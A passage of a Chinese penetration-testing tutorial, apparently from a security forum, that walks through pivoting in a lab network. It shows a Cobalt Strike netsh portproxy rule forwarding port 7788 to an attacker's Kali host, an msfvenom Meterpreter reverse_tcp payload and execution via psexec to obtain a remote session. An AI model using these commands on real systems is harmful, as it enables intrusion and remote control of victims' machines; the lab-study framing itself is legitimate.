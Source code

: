 msf里面执行，cs中即可上线

[![](https://shs3.b.qianxin.com/attack_forum/2021/09/attach-013ef8cc878611babf16eb7173820d9ed96e162d.png)](https://shs3.b.qianxin.com/attack_forum/2021/09/attach-013ef8cc878611babf16eb7173820d9ed96e162d.png)

[![](https://shs3.b.qianxin.com/attack_forum/2021/09/attach-813573bf0e6638ef1f77d877ce9ca74cdb073be1.png)](https://shs3.b.qianxin.com/attack_forum/2021/09/attach-813573bf0e6638ef1f77d877ce9ca74cdb073be1.png)

这里我们把`192.168.2.122/10.10.1.129`这台主机当作跳板，那么就把所有经过这台主机的流量全部转发到kali(公网ip的vps)上，使用到ipsec

这里简单说一下ipsec

> IPsec被设计用来提供（1）入口对入口[通信安全](https://baike.baidu.com/item/%E9%80%9A%E4%BF%A1%E5%AE%89%E5%85%A8)，在此机制下，分组通信的安全性由单个节点提供给多台机器（甚至可以是整个[局域网](https://baike.baidu.com/item/%E5%B1%80%E5%9F%9F%E7%BD%91)）；（2）端到端分组通信安全，由作为端点的计算机完成安全操作。上述的任意一种模式都可以用来构建[虚拟专用网](https://baike.baidu.com/item/%E8%99%9A%E6%8B%9F%E4%B8%93%E7%94%A8%E7%BD%91)（VPN），而这也是IPsec最主要的用途之一。应该注意的是，上述两种操作模式在安全的实现方面有着很大差别。
> 
> 因特网范围内[端到端通信](https://baike.baidu.com/item/%E7%AB%AF%E5%88%B0%E7%AB%AF%E9%80%9A%E4%BF%A1/3223228)安全的发展比预料的要缓慢，其中部分原因，是因为其不够普遍或者说不被普遍信任。[公钥基础设施](https://baike.baidu.com/item/%E5%85%AC%E9%92%A5%E5%9F%BA%E7%A1%80%E8%AE%BE%E6%96%BD)能够得以形成（[DNSSEC](https://baike.baidu.com/item/DNSSEC)最初就是为此产生的），一部分是因为许多用户不能充分地认清他们的需求及可用的选项，导致其作为内含物强加到卖主的产品中（这也必将得到广泛采用）；另一部分可能归因于网络响应的退化（或说预期退化），就像兜售信息的充斥而带来的带宽损失一样。

那么这里我们在cs上执行命令，添加一条ipsec入站规则，这里相当于在10.10.1.129这台主机上打开7788监听端口，转发到192.168.2.105(kali ip即vps的公网IP)的7788端口

```php
shell netsh interface portproxy add v4tov4 listenport=7788 connectaddress=192.168.2.105 connectport=7788
```

然后使用命令查看是否添加成功

```php
shell netsh interface portproxy show all
```

[![](https://shs3.b.qianxin.com/attack_forum/2021/09/attach-b01ddd23b1680877d6eb0f407c92912dc85dd14e.png)](https://shs3.b.qianxin.com/attack_forum/2021/09/attach-b01ddd23b1680877d6eb0f407c92912dc85dd14e.png)

那么到这个地方就相当于我们在10.10.1.129的7788端口得到的所有流量都会被转发到公网的kali上，这里我们再使用msf生成木马的时候lhost就需要写的是内网主机的ip，即10.10.1.129

```php
msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.1.129 LPORT=7788 -f exe > abc.exe 
```

[![](https://shs3.b.qianxin.com/attack_forum/2021/09/attach-bbda4ea8d115219eec19ac8e8d50a35c24a33034.png)](https://shs3.b.qianxin.com/attack_forum/2021/09/attach-bbda4ea8d115219eec19ac8e8d50a35c24a33034.png)

然后psexec连接过去执行即可上线msf，这里可以看到connection这个地方是10.10.1.128-&gt;192.168.2.122(10.10.1.129)-&gt;192.168.2.105(模拟公网ip)，上线成功

[![](https://shs3.b.qianxin.com/attack_forum/2021/09/attach-4089f51a043a0ed2cb8eb6f08c7f312da0d4ae56.png)](https://shs3.b.qianxin.com/attack_forum/2021/09/attach-4089f51a043a0ed2cb8eb6f08c7f312da0d4ae56.png)
